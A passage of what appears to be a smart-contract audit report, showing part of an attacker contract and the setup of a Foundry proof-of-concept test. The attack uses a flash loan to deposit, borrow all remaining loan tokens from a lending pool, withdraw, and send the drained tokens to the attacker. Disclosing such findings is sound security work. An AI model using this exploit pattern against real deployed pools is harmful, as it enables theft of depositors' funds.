 ```solidity
        loanToken.approve(address(pool), loanTokenBalance);

        // Execute flash loan
        flashLoan.execute(FlashBorrower(address(this)), loanToken, loanTokenBalance, abi.encode(loanTokenBalance));
    }

    function onFlashLoan(IERC20Token token, uint amount, bytes calldata data) public override {
        // Decode data
        (uint loanTokenBalance) = abi.decode(data, (uint));

        // Deposit tokens borrowed from flash loan, borrow all other LOAN tokens from pool and
        // withdraw the deposited tokens
        pool.deposit(amount);
        pool.borrow(loanTokenBalance);
        pool.withdraw(amount);

        // Repay the loan
        token.transfer(address(flashLoan), amount);

        // Send loan tokens to owner
        loanToken.transfer(owner, loanTokenBalance);
    }
}
```

Execution:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import "../src/Pool.sol";
import "../src/Factory.sol";
import "./mocks/Borrower.sol";
import "./mocks/ERC20.sol";

contract PoC is Test {
    address alice = vm.addr(0x1);
    address bob = vm.addr(0x2);
    Factory factory;
    Pool pool;
    Borrower borrower;
    Flashloan flashLoan;
    MockERC20 collateralToken;
    MockERC20 loanToken;
    uint maxCollateralRatioMantissa;
    uint surgeMantissa;
    uint collateralRatioFallDuration;
    uint collateralRatioRecoveryDuration;
    uint minRateMantissa;
    uint surgeRateMantissa;
    uint maxRateMantissa;

    function setUp() public {
        factory = new Factory(address(this), "G");
        flashLoan = new Flashloan();
        collateralToken = new MockERC20(1 ether, 18);
        collateralToken.transfer(bob, 1 ether);
        loanToken = new MockERC20(100 ether, 18);
        loanToken.transfer(alice, 1 ether);
        loanToken.transfer(address(flashLoan), 99 ether);
        maxCollateralRatioMantissa = 1e18;
        surgeMantissa = 0.8e18; // 80%
```